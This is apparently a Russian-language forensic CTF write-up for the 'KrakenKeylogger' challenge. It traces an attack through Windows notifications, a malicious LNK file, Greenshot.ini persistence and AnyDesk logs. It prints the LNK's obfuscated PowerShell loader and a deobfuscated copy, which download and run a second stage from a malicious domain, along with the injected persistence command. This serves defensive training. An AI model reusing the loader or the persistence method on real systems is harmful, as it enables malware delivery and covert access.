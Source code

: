 ```yaml
---
link: https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/
tags:
  - LECmd
  - Timeline
  - DBBrowser
---
```

---
## Scenario
>An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.  
>The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

---
# How to solve?
---
## Q1. What is the the web messaging app the employee used to talk to the attacker?

Исходя из сценария:
>After one day, he received a **notification** from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test.

Было решено проверить виндовые уведомления, которые находятся по пути:
`C:\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications\wpndatabase.db`
Открыв с помощью `DB Browser for SQLite` и просмотрев таблицу `Notification` можно обнаружить уведомление из мессенджера **Телеграм**:

![telegram](./telegram.png)

> Answer: **telegram**

## Q2. What is the password for the protected ZIP file sent by the attacker to the employee?

В этом же уведомлении из скрина выше находится пароль к архиву
> Answer: @1122d

## Q3. What domain did the attacker use to download the second stage of the malware?

Вот тут пришлось уже покопаться. Решил проверить содержимое архива, который конечно же находится в директории загрузок пользователя **OMEN**.
Архив содержит DOCX документ, и подозрительный LNK-файл ярлык с именем **templet.lnk**.

Анализ файла на VirusTotal подтвердил его вредоносность:
![virustotal](./virustotal.png)

Воспользовавшись утилитой **LECmd.exe**:
```bash
LECmd.exe -f '.\templet.lnk' --csv result;                  
```
Далее открыв файл в TimelineExplorer, можно обнаружить, что данный файл запускает процесс **powershell.exe** с обфусцированными параметрами:

Запуск **Powershell.exe**
```bash
..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Параметры:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
```

Моя попытка деобфускации кода:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function reverseCharArray($charArray){
  $charArray[$charArray.Length..0] -join('')
}; 
function processString($charArray ){
  $reversedCharArray = reverseCharArray $charArray;
  for($i = 0; $i -lt $reversedCharArray.Length; $i += 2) {
    try {
      $resultString += reverseCharArray $reversedCharArray.Substring($i,2)
    }
    catch {
      $resultString += $reversedCharArray.Substring($i,1)
      }
    };
  $resultString
};

$resultURL = processString 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$filePath = $env:APPDATA + '\' + ($resultURL -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$maliciousCode = wget $resultURL -UseBasicParsing;
[IO.File]::WriteAllText($filePath, $maliciousCode);
& $filePath;
sleep 3;
rm $filePath;
```
*Первая функция* переворачивает массив символов и возвращает его как строку.
*Вторая функция* переворачивает входной массив, затем обрабатывает его по два символа за раз, пытаясь перевернуть каждую пару и добавлять к результату; если остается один символ, добавляет его без изменения.

Проделав функции на данной строке мы получим домен `masherofmasters[.]cyou`
> Answer: masherofmasters.cyou

## Q4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?

Загуглив что токое LOLAPPS, мы обнаружим сайт https://lolapps-project.github.io/ который содержит легитимные утилиты, которые могут использоваться в нелегитимных целях. 

В директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружим данные установленных приложений. Среди них: **Adobe, AnyDesk, Greenshot, Microsoft**.

Согласно ресурсу LOLAPPS, приложение Greenshot как раз может использоваться для закрепления на хосте:
> Any Greenshot plugin can contain persistence, the simplest being the "External command plugin" which uses command line; Modify the `Greenshot.ini` file in *"%AppData%\Greenshot\"*, add an `ExternalCommand` configuration, add a new name to the "Commands" parameter, add the payload in the `Commandline.<name>` and `Argument.<name>`, add the name to the "Destinations" parameter. 

Директория Greenshot как раз содержит конфиг файл `Greenshot.ini`. Проанализировав его содержимое, можно обнаружить вышеописанный метод закрепления:
```ini
; The commandline for the output command.
Commandline.MS Paint=C:\Windows\System32\mspaint.exe
Commandline.jlhgfjhdflghjhuhuh=C:\Windows\system32\cmd.exe

; The arguments for the output command.
Argument.MS Paint="{0}"
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```

> Answer: jlhgfjhdflghjhuhuh


## Q5. What is the complete path of the malicious file that the attacker used to achieve persistence

Тут необходимо указать полный путь до вредоносного файла из конфиг файла.

> Answer: C:\Users\OMEN\AppData\Local\Temp\templet.lnk

## Q6. What is the name of the application the attacker utilized for data exfiltration?

Ранее в директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружили данные установленных приложений. Среди них оказался **AnyDesk**. 

> Answer: AnyDesk

## Q7. What is the IP address of the attacker?
Рассмотрим содержимое директории **AnyDesk**, а именно файл `C:Users\OMEN\AppData\Roaming\AnyDesk\ad.trace`.

> Журнал **ad.trace** содержит отладочную информацию, что позволяет определить **IP-адрес**, с которого производилось подключение

Открыв его с помощью текстового редактора, можно увидеть логи ПО AnyDesk.

Поискав по словосочетанию `Connection established`, можно обнаружить следующую информацию:
```log
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Connection established.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Relay connector stopped.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380                       fiber.scheduler - Fiber 27 'relay_connector' (parent: 25) terminated.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   25                anynet.relay_conn - External address: 77.232.122.31:34791.
```

> Answer: 77.232.122.31
